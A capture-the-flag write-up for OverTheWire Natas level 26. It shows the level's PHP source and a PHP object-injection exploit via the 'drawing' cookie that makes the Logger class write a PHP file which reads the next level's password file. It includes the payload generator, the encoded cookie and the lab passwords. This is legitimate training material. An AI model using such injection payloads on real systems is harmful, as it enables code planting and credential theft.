# Over The Wire -- Natas 26

## Server URL
```
http://natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T@natas26.natas.labs.overthewire.org
```

## Solution
We can draw a line from `X1, Y1` to `X2,Y2`

The php source code is 







```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "<censored>" };</script></head>
<body>
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);     
        imagedestroy($img);
    }
    
    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        
            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"], 
                            $_GET["x2"], $_GET["y2"], $color);
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
        }    
    }
    
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }
        
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
    
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We got to exploit the `serialize/unserialize` process.

Took some time fiddling around to fully grasp how the serialization/unserialization work.
We can only send member values, functions won't be passed along. The function `__wakeup()` and `__destruct()` are called automatically as part of the unserialize process.

So, we need a valid class that we can unserialize. We got the `Logger` class.

The function `__destruct()` is defined but we can only affect the `$logFile` and the `$exitMsg` variable.

We can't open/read the `/etc/natas_webpass/natas27` file because we don't have write permission to it (And we wouldn't be able to read since we just do a `fwrite` with the file).

Hmm...
We could create a `Logger` serializable string with `$logfile = someTempFile.php` and `$exitMsg=Php_Code_to_read_file`.

We could then visit this php file and retrieve the password from there.
We got to find an accessible path to put our php file tho.

We can't write in the current directory but the app write to `/img` so we should have permissions to write there.

We use this php code to generate the serializable string :
```php
<?php

class Logger{
    private $logFile = "img/pwn.php";
    private $initMsg = "hello";
    private $exitMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>";
}

$encoded = base64_encode(serialize(new Logger));

echo urlencode($encoded);
echo "\n";
?>
```

We could have scripted this but we just use the resulting serializable string as the `drawing` cookie value in the browser (Where `%3D` == `=` urlencoded):
```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL3B3bjIucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6NToiaGVsbG8iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo2MjoiPD9waHAgZWNobyBmaWxlX2dldF9jb250ZW50cygnL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30%3D
```

And we visit `/img/pwn.php`

We get the Natas27 password :
```
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
```